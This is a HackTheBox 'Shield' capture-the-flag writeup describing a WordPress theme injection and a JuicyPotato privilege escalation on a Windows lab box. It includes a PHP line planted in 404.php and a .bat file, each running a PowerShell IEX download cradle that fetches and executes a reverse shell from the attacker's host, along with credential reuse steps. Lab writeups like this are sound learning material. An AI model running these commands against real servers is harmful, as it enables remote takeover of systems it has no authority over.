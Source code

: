 ```yaml
---
weight: 1
title: "HackTheBox - Shield Writeup"
date: 2021-07-21
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["juicy-potato", "seImpersonatePrivilege"]
categories: ["HacktheBox"]

lightgallery: true
toc:
  auto: false
---
```


## Enumeration

- scan top 1000 ports
- the result

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.29
```
![1](1.png)

- scan all ports
- the result

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```

![1](2.png)

- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## WebPage

- Just default windows server page

![1](3.png)

### Gobuster

- Using gobuster to find any hidden directory
- the result

![1](4.png)

### WordPress

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### Admin Login

- Try to login as admin with credentials from previous box `vaccine`
- Success

![1](7.png)

## Foothold/Gaining Access

### WordPress Theme Injection
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it

![1](8.png)

- Well, the reverse shell is succefully execute 

### SeImpersonatePrivilege

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result

![1](9.png)

- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result

![1](12.png)

## Privilege Escalation

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### POTATO

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result

![1](13.png)

- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result

![1](14.png)

- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

> NOTE: Make sure you're running the nc for listening the connection
> 
> REMEMBER: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
> in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.

- the result

![1](15.png)

- we've got the root flag

![1](16.png)

## Conclusion
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)